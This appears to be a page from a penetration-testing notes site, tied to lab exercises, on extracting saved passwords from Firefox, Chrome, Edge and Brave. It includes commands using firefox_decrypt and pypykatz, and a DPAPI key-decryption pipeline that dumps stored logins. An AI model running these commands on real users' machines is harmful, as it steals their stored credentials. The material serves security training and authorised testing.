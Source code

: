 # Browser Saved Passwords

<div class="row row-cols-lg-2"><div>

#### Extract Firefox Saved Passwords

[![password_attacks](../../../_badges/htb/password_attacks.svg)](https://academy.hackthebox.com/course/preview/password-attacks)
[![file_insecure_storage_1](../../../_badges/rootme/cryptanalysis/file_insecure_storage_1.svg)](https://www.root-me.org/en/Challenges/Cryptanalysis/File-Insecure-storage-1)

Mozilla Firefox passwords can be extracted and cracked using [firefox_decrypt](https://github.com/unode/firefox_decrypt) <small>(1.8k ⭐)</small>. To install it on Kali:

```ps
$ cd /opt
$ git clone https://github.com/unode/firefox_decrypt.git
$ cd firefox_decrypt
$ python3.9 firefox_decrypt.py -h
$ python3.9 firefox_decrypt.py /tmp/.mozilla/firefox/
```

Additional notes:

```ps
$ ls -l .mozilla/firefox/ | grep default
$ cat .mozilla/firefox/xxx.default-release/logins.json | jq.
```
</div><div>

#### Extract Chrome, Edge, and Brave Saved Passwords

[![chrome](../../../_badges/thm-p/chrome.svg)](https://tryhackme.com/room/chrome)

On Windows, you can find the user browser sensitive files at:

```text!
AppData\Local\Microsoft\Edge\User Data
AppData\Local\Google\Chrome\User Data
AppData\Local\BraveSoftware\Brave-Browser\User Data\
```

Passwords are stored [SQLite](/programming-languages/databases/relational/dbms/sqlite.md) database in `./<profile>/Login Data` such as `./Default/Login Data`. They are encrypted using a base64-encoded key in `./Local State`. You can display it using:

```ps
$ cat "./Local State" | jq | grep "encrypted_key"
"encrypted_key": "<encrypted secret key here>"
```

On Windows, the key is encrypted using [DPAPI master key](/operating-systems/windows/security/index.md#dump-credentials-protected-by-the-dpapi). Once you got it, you can decrypt the database using [pypykatz](/cybersecurity/red-team/tools/utilities/creds/pypykatz.md):

```shell!
$ cat mkf # master kejson file created by pypykatz
{
    "backupkeys": {},
    "masterkeys": {
        "H-I-J-K-L": "master_key_here"
    }
}
$ pypykatz dpapi chrome ./mkf "./Local State" --logindata "./Default/Login Data"
```

➡️ We can use [decrypt-chrome-passwords](https://github.com/ohyicong/decrypt-chrome-passwords/) <small>(0.8k ⭐)</small> on Windows that actually automates the whole process.
</div></div>

<hr class="sep-both">

## Additional Notes

<div class="row row-cols-lg-2"><div>

#### DPAPI Master Key to extract Secret Key 

Once we have the DPAPI master key, we can alternatively decrypt the encrypted secret key, and use it to decrypt the passwords.

On Linux, we can use [dpapilab-ng](https://github.com/tijldeneut/dpapilab-ng/blob/main/blobdec-with-masterkey.py) <small>(0.04k ⭐)</small> to decrypt the secret key and [dcp](https://github.com/palmenas/dcp/tree/main) <small>(0.002k ⭐)</small> to decrypt and dump passwords.

```ps
$ base64 -d > key.enc <<< "<secret key here>"
$ python -c "with open('key.enc', 'rb+') as f: data = f.read(); f.seek(0); f.write(data[5:]); f.truncate()" # remove the DPAPI text at the start of the file
$ pip install dpapick3
$ python3 blobdec-with-masterkey.py key.enc --masterkey "<master key here>"
<secret_key_here>
$ python3 dcp.py -S secret_key_here -P "./Default/Login Data"
```
</div><div>
</div></div>
